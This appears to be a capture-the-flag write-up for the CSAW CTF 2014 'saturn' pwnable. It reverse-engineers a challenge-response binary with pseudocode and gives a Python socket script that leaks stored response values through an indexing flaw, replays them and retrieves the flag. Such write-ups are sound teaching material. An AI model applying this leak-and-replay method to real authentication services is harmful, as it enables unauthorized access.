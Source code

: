 title: CSAW CTF 2014 -- Exploitation 400 saturn
tags:
  - CTF
  - CSAW
  - Python
  - Pwnable
categories:
  - write-ups
author: bruce30262
date: 2014-09-25 09:35:00
---
First the challenge gave us a binary file (ELF for Intel-386). But we can't execute it, cause we don't have the required shared library **"libchallengeresponse.so"**. So we will have to launch IDA Pro to see what's going on within the program.
<!-- more -->

After analyzing the program ( praise the powerful F5 key! ) , I collected the following information:

# Main function

``` c main_function_psuedo_code
int main()
{
  puts("CSAW ChallengeResponseAuthenticationProtocol Flag Storage");
  
  for ( i = 0; i <= 0; ++i )
  {
    v0 = read_one_byte();
    v3 = v0;
    v1 = v0 & 0xF0;
    switch ( v1 )
    {
      case 160: //0xA0
        functionA(v3);
        i -= 2;
        break;
      case 224: //0xE0
        functionB(v3);
        i -= 2;
        break;
      case 128: //0x80
        functionC();
        break;
    }
  }
  return 0;
}
```

As we can see, the main function will read a byte from the user input, and do the `&` operation. `v1` will hold the result, and a `switch-case` condition will decide which function to run next, base on `v1`'s value. 

So basically, we can summarize that the main function will **only accept 3 kinds of input**: `0xA0 ~ 0xAF`, `0xE0 ~ 0xEF` and `0x80 ~ 0x8F`. Now let's take a good look at those functions.

# functionA

``` c functionA_psuedo_code
functionA (char a1)
{
	int v2; 
	v2 = *((int *)bufferA + (a1 & 0xF));

	print_four_char_which_store_in_v2();
}
```

In `functionA`, we found a `bufferA`, which start from a specific address. `functionA` will take the original input (a byte value) as the parameter, extract its last 4 bit, take it as the offset from `bufferA` and calculate the position's address. Then, `v2` will store a 4 bytes value, start from the new address in `bufferA`. At last the function will print out 4 char (= 4 byte) which was stored in `v2`.

Note that if the offset is `0x1`, the new address will start from `bufferA + 4`, if the offset is `0x2`, the new address will start from `bufferA + 8`...and so on (basic knowledge of pointer).

# functionB

``` c functionB_psuedo_code
functionB (char a1)
{
	offser = a1 & 0xF
  
	v4 = *((int *)bufferB + offset);
	read_four_byte_from_input(v5);
  
	if ( v5 != v4 )
  		exit(0);
  
	bufferC[offset] = 1;
}
```
In `functionB`, we found `bufferB` and `bufferC` , both start from a specific address. Like `functionA`, `functionB` also take the original input (a byte value) as the parameter, extract its last 4 bit and take it as a `offset`. But there's a slight difference. In `functionB`, `v4` will store a 4 bytes value, start from the new position in `bufferB`, while another variable `v5` also read a 4 bytes value from the user input and hold its value. Then, the function will compare these two value, if they are the same, it will store value `1` in bufferC, the position is also base on the `offset`'s value.

So, if the user input is `0xE4`, `offset` will store the value `4`, `v4` will store the value `bufferB + 16` ~ `bufferB + 20`, `v5` will read another 4 bytes from user input. If `v4 == v5`, then `bufferC[4]` will store the value `1`

# functionC

``` c functionC_psuedo_code
functionC()
{
	v6 = 1;
	
	for( i = 0 ; i <= 7 ; i++ )
 	{
 		v6 *= bufferC[i]
	}
  
	if (v6 == 0)
  		exit(0);	
	else
  		print_flag()
}
```
`functionC` is quite simple. It just calculate the factorial of all the values stored in `bufferC`. If the result isn't `0`, it will print out the flag, or else it will terminate the program. 

So, to sum up all the functions mentioned previously and how are we going to exploit:

1. use `functionA` to get all the values stored in `bufferB` (use IDA pro to check the offset between `bufferA` and `bufferB`, the offset is `32` (`0x20`) )
2. use `functionB` to overwrite the value in `bufferC`, in order to pass the checking function `functionC`
3. use `functionC` to get the flag

But here is the tricky part: **the values stored in** `bufferB` **are not fixed**. 
So, I finally decided to write a python script to solve the challenge. 

```python saturn.py
from socket import *
from struct import *
 
sock = socket(AF_INET, SOCK_STREAM) #create socket (IP, TCP)
sock.connect(("54.85.89.65" , 8888))

print sock.recv(1024) #recv the title

"""
arr: inputs for getting bufferB's value
arr2: inputs for modifying bufferC's value
int_send: for storing the content of bufferB
"""

arr = ['\xA8', '\xA9','\xAA','\xAB','\xAC','\xAD','\xAE','\xAF']
arr2 = ['\xE0', '\xE1','\xE2','\xE3','\xE4','\xE5','\xE6','\xE7']
int_send = []

for c in arr:
	sock.send(c)
	data = sock.recv(4) #recv 4 bytes
	d = unpack("<I", data)[0] #unpack as an unsigned integer, little-endian format 
	int_send.append(d) # store the bufferB's value

send_cnt = 0

for i in int_send:
	sock.send(arr2[send_cnt]);
	sock.send(pack("<I",(i & 0xFFFFFFFF))) # force format to 32bit
	send_cnt += 1

sock.send('\x80') #get flag
print sock.recv(1024) #print flag
sock.close()  

```

the flag: `flag{greetings_to_pure_digital}`